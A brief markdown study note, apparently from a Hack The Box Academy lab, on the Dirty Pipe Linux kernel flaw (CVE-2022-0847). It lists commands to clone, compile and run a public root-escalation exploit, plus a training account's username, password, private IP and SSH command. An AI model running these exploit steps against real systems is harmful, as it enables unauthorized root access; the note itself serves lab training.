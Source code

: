 # Dirty Pipe

>[!info] CVE-2022-0847
> This a vulnerability in the Linux kernel that allows unauthorized writing to root user files on Linux.
> Kernels 5.8 to 5.17 are vulnerable

## TOC
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## Dirty Pipe GitHub

```python
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

You will execute as so `bash dirtypipe.sh`


## Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.141.200
```

SSH
```python
ssh htb-student@10.129.141.200
```
